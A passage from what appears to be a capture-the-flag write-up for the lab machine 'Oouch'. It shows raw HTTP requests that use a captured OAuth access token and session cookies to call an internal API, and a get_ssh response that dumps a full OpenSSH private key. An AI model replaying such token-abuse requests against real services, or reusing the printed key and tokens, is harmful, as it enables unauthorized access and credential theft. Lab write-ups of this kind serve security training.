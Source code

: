 By using this endpoint we gain nothing:

```
GET /api/get_user/?access_token=Xkuzgir8C38MeCv2xyq08PFMDF5NwX HTTP/1.1
Host: authorization.oouch.htb:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: csrftoken=34Evh3Q30RWq1vsa9yWKKc49TXMo3c2TNv96AXeKrL4qD3ZLf9JbDwzKtjRzFPn5; sessionid=08lyfd5lxftdn9v5gd7knjxok4unsf0e
Upgrade-Insecure-Requests: 1
```

```json
{"username": "qtc", "firstname": "", "lastname": "", "email": "qtc@nonexistend.nonono"}
```

As we heard of a ssh key in `todo.txt`, let's try `get_ssh` instead of `get_user`.

```
GET /api/get_ssh/?access_token=Xkuzgir8C38MeCv2xyq08PFMDF5NwX HTTP/1.1
Host: authorization.oouch.htb:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: csrftoken=34Evh3Q30RWq1vsa9yWKKc49TXMo3c2TNv96AXeKrL4qD3ZLf9JbDwzKtjRzFPn5; sessionid=08lyfd5lxftdn9v5gd7knjxok4unsf0e
Upgrade-Insecure-Requests: 1
```

```json
{"ssh_server": "consumer.oouch.htb", "ssh_user": "qtc", "ssh_key": "-----BEGIN OPENSSH PRIVATE KEY-----\nb3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn\nNhAAAAAwEAAQAAAYEAqQvHuKA1i28D1ldvVbFB8PL7ARxBNy8Ve/hfW/V7cmEHTDTJtmk7\nLJZzc1djIKKqYL8eB0ZbVpSmINLfJ2xnCbgRLyo5aEbj1Xw+fdr9/yK1Ie55KQjgnghNdg\nreZeDWnTfBrY8sd18rwBQpxLphpCR367M9Muw6K31tJhNlIwKtOWy5oDo/O88UnqIqaiJV\nZFDpHJ/u0uQc8zqqdHR1HtVVbXiM3u5M/6tb3j98Rx7swrNECt2WyrmYorYLoTvGK4frIv\nbv8lvztG48WrsIEyvSEKNqNUfnRGFYUJZUMridN5iOyavU7iY0loMrn2xikuVrIeUcXRbl\nzeFwTaxkkChXKgYdnWHs+15qrDmZTzQYgamx7+vD13cTuZqKmHkRFEPDfa/PXloKIqi2jA\ntZVbgiVqnS0F+4BxE2T38q//G513iR1EXuPzh4jQIBGDCciq5VNs3t0un+gd5Ae40esJKe\nVcpPi1sKFO7cFyhQ8EME2DbgMxcAZCj0vypbOeWlAAAFiA7BX3cOwV93AAAAB3NzaC1yc2\nEAAAGBAKkLx7igNYtvA9ZXb1WxQfDy+wEcQTcvFXv4X1v1e3JhB0w0ybZpOyyWc3NXYyCi\nqmC/HgdGW1aUpiDS3ydsZwm4ES8qOWhG49V8Pn3a/f8itSHueSkI4J4ITXYK3mXg1p03wa\n2PLHdfK8AUKcS6YaQkd+uzPTLsOit9bSYTZSMCrTlsuaA6PzvPFJ6iKmoiVWRQ6Ryf7tLk\nHPM6qnR0dR7VVW14jN7uTP+rW94/fEce7MKzRArdlsq5mKK2C6E7xiuH6yL27/Jb87RuPF\nq7CBMr0hCjajVH50RhWFCWVDK4nTeYjsmr1O4mNJaDK59sYpLlayHlHF0W5c3hcE2sZJAo\nVyoGHZ1h7Pteaqw5mU80GIGpse/rw9d3E7maiph5ERRDw32vz15aCiKotowLWVW4Ilap0t\nBfuAcRNk9/Kv/xudd4kdRF7j84eI0CARgwnIquVTbN7dLp/oHeQHuNHrCSnlXKT4tbChTu\n3BcoUPBDBNg24DMXAGQo9L8qWznlpQAAAAMBAAEAAAGBAJ5OLtmiBqKt8tz+AoAwQD1hfl\nfa2uPPzwHKZZrbd6B0Zv4hjSiqwUSPHEzOcEE2s/Fn6LoNVCnviOfCMkJcDN4YJteRZjNV\n97SL5oW72BLesNu21HXuH1M/GTNLGFw1wyV1+oULSCv9zx3QhBD8LcYmdLsgnlYazJq/mc\nCHdzXjIs9dFzSKd38N/RRVbvz3bBpGfxdUWrXZ85Z/wPLPwIKAa8DZnKqEZU0kbyLhNwPv\nXO80K6s1OipcxijR7HAwZW3haZ6k2NiXVIZC/m/WxSVO6x8zli7mUqpik1VZ3X9HWH9ltz\ntESlvBYHGgukRO/OFr7VOd/EpqAPrdH4xtm0wM02k+qVMlKId9uv0KtbUQHV2kvYIiCIYp\n/Mga78V3INxpZJvdCdaazU5sujV7FEAksUYxbkYGaXeexhrF6SfyMpOc2cB/rDms7KYYFL\n/4Rau4TzmN5ey1qfApzYC981Yy4tfFUz8aUfKERomy9aYdcGurLJjvi0r84nK3ZpqiHQAA\nAMBS+Fx1SFnQvV/c5dvvx4zk1Yi3k3HCEvfWq5NG5eMsj+WRrPcCyc7oAvb/TzVn/Eityt\ncEfjDKSNmvr2SzUa76Uvpr12MDMcepZ5xKblUkwTzAAannbbaxbSkyeRFh3k7w5y3N3M5j\nsz47/4WTxuEwK0xoabNKbSk+plBU4y2b2moUQTXTHJcjrlwTMXTV2k5Qr6uCyvQENZGDRt\nXkgLd4XMed+UCmjpC92/Ubjc+g/qVhuFcHEs9LDTG9tAZtgAEAAADBANMRIDSfMKdc38il\njKbnPU6MxqGII7gKKTrC3MmheAr7DG7FPaceGPHw3n8KEl0iP1wnyDjFnlrs7JR2OgUzs9\ndPU3FW6pLMOceN1tkWj+/8W15XW5J31AvD8dnb950rdt5lsyWse8+APAmBhpMzRftWh86w\nEQL28qajGxNQ12KeqYG7CRpTDkgscTEEbAJEXAy1zhp+h0q51RbFLVkkl4mmjHzz0/6Qxl\ntV7VTC+G7uEeFT24oYr4swNZ+xahTGvwAAAMEAzQiSBu4dA6BMieRFl3MdqYuvK58lj0NM\n2lVKmE7TTJTRYYhjA0vrE/kNlVwPIY6YQaUnAsD7MGrWpT14AbKiQfnU7JyNOl5B8E10Co\nG/0EInDfKoStwI9KV7/RG6U7mYAosyyeN+MHdObc23YrENAwpZMZdKFRnro5xWTSdQqoVN\nzYClNLoH22l81l3minmQ2+Gy7gWMEgTx/wKkse36MHo7n4hwaTlUz5ujuTVzS+57Hupbwk\nIEkgsoEGTkznCbAAAADnBlbnRlc3RlckBrYWxpAQIDBA==\n-----END OPENSSH PRIVATE KEY-----"}
```
